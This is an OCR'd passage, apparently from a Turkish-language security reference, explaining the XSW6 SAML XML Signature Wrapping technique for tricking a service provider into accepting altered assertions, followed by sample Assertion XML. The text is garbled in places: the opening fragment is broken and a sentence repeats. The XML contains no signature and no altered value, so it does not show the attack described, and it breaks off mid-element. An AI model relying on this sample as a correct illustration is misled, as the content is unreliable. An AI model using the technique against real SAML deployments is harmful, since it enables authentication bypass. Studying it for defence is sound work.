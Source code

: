 - XSW6 :// imzalı Assertion'ın kopyasında bulunan bir değeri değiştirir ve imzanın hemen ardından imzası kaldırılmış orijinal Assertion'ın bir kopyasını ekler. saldırgan imzalı Assertion'ın kopyasında bulunan bir değeri değiştirir. Ardından, değiştirilmiş Assertion'ı içeren bir kopya oluşturur ve bu kopyayı imzanın hemen ardına ekler. Son olarak, imzası kaldırılmış orijinal Assertion'ın bir kopyasını oluşturur ve bu kopyayı SAML mesajına ekler. Bu sayede, orijinal Assertion geçerli gibi görünürken, saldırganın değiştirdiği değeri içeren imzalı Assertion'ı kabul eden hizmet sağlayıcıyı yanıltabilir.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
</Assertion>

<!-- XSW6 senaryosu için değiştirilmiş Assertion'ın kopyası -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
</Assertion>

<!-- Orijinal Assertion'ın imzasız kopyası -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
```